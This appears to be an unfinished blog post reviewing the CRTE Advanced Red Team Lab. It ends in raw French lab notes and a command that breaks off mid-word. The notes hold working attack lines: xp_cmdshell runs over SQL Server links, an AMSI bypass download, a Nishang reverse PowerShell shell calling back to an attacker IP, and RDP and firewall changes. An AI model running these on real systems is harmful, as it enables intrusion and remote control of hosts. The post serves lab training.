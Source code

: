 ```yaml
---
layout: post
title:  "SecurityTube Advanced Red Team Lab training - How to enumerate"
date:   2020-09-22
category: Certification
excerpt_separator: <!--more-->
---
```

Hello,  
  
I would like to talk a bit about the [SecurityTube red team labs](https://www.pentesteracademy.com/redlabs), specifically the [Advanced Red Team Lab](https://www.pentesteracademy.com/redteamlab) which leads to the CRTE (Certified Red Team Expert) certification.  
  
Some great [reviews](https://www.google.com/search?q=review+red+team+lab+pentester+academy+%22CRTE%22) are already existing, so i will focus on why i chose this lab and certification. I will give you some hints about how to approach your targets. Most importantly, i would like to introduce you a tool that i developped which will help you during your journey, [Invoke-Recon](https://github.com/phackt/Invoke-Recon).  
<!--more-->

### Context
  
I was looking for a another professional and challenging cert focused on Windows AD. My prerequisites were:  
 - no jeopardy style 
 - real life scenarios which will be found in real engagements
 - a environment not too crowded. I met this situation with others platforms and i spent much of my time contacting the support to revert the VMs because of others bad exploitation or persistence, getting the machines you're working on totally unstable.  
  
Finally the *Advanced Red Team Lab* was the answer. Companies are more and more looking for online qualitative trainings because of the actual sanitary crisis. Think to ask to your company for a financial support.  

### What i really liked  

 - Reactive and helpful support
 - Updated servers and workstations with AV running
 - AD exploitation and local privilege escalation
 - The exploitation paths are consistent and relevant
 - Nikhil Mittal and his team are really friendly and you definitely can contact them on twitter to share your thoughts on this lab

### What should be / will be improved

 - possibility to revert VMs on our own during lab and cert (in dev on their side)
  
### What you will learn
  
Obviously, the difficulty level depends on your experience as a pentester, but be sure that after this cert you will be able to :  
  - Properly enumerate an AD (basic stuff like SPNs, kerberos with no preauth, ...) and which tools to use (think about [lolbas](https://lolbas-project.github.io/))
  - Find AD exploitation paths, weak ACLs
  - Spearphish users  
  - Know how to exploit Kerberos delegation and how the S4U extensions are working (for ex: kerberos constrained delegation with protocol transition)
  - Exploit domain / forest trusts (SID Filtering, SID History, ...)
  - Exploit MSSQL servers (this part was really interesting as i did not have so many opportunities to exploit MSSQL instances during engagements)
  - Many other cool stuff
  

### Hints (that you may not find on others blog posts)

Your will start as domain user on a Windows Server where you will be able to RDP. I advice you to get SYSTEM on this machine, to disable Defender and some restrictive Firewall and AppLocker rules.  
Then take of your shoes and feel comfortable at home.  
  
I mainly used this Windows VM but i also had my Kali. In order to be able to proxyfy my Kali tools, i used [ssf](https://github.com/securesocketfunneling/ssf/releases) and [proxychains](https://translate.google.fr/translate?hl=fr&sl=fr&tl=en&u=https%3A%2F%2Fphackt.com%2Ftor-proxychains).  
  
Sometimes in this lab you will be able to move forward the unintended ways, i mean with your own kind of exploitation (to give you an idea, read this blog post from [itm4n](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)).
Todo:
- recommander de tjs chercher à exploiter comme ils l ont voulu
- ne pas négliger la post exploitation
- d'utiliser les outils suivants
  
Don't forget to note where you struggled at, during the exam it will be a pity to lose time on a thing you already faced.  
  

### Tools

-----------------


-privesc de la machine puis ssf avec proxychains
-Parler des tools utilisés (ceux dans le Rep tools de la VM)
-Parler des façons unintended d avoir pown le lab
-Parler des sites notamment ceux de harmjoy, S4U2Pwnage, ...
-mettre des lignes de commandes utiles (des notes du lab, de keepnote - powershell et domain local enumeration)
-faire un article sur les commandes MSSQL (RPC OUT, OPENROWSET, EXECUTE AS)
-use maximum les lolbin (lien sur le site des lolbins)
-try to clean after you passed
-netsh pour les pivots
-le trick pour réactiver 3389 sans reboot (le mieux, desactiver winrm, utiliser smbexec en modifiant le port pour pivot 4445, et changer le port TermService sur 5985 car non filtré):
Depuis un WinRM:
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\" -Name PortNumber -Value 5985
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (TCP-In) 8888" -Direction Inbound –Protocol TCP -Profile Any –LocalPort 8888 -Action allow
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (UDP-In) 8888" -Direction Inbound –Protocol UDP -Profile Any –LocalPort 8888 -Action allow
sc.exe stop WinRM

Depuis un smbexec:
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING


-ls \\DC\pipe\spoolss

'UFC-SQLDEV' is not configured for RPC OUT.
spoolss DC n'est pas activé sur les DCs, mais l'est sur les serveurs

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"whoami""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Cus
tomquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"New-Object System.Net.Sockets.TcpClient(''192.168.2.90'', ''445'')""
""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.15
3:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.153:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.50.153 -Port
 8888""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C "iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.2.90 -Port 8888"'

Get-ChildItem -Path .\ -Filter dbbackup.sql -Recurse -ErrorAction SilentlyContinue -Force
Invoke-Sq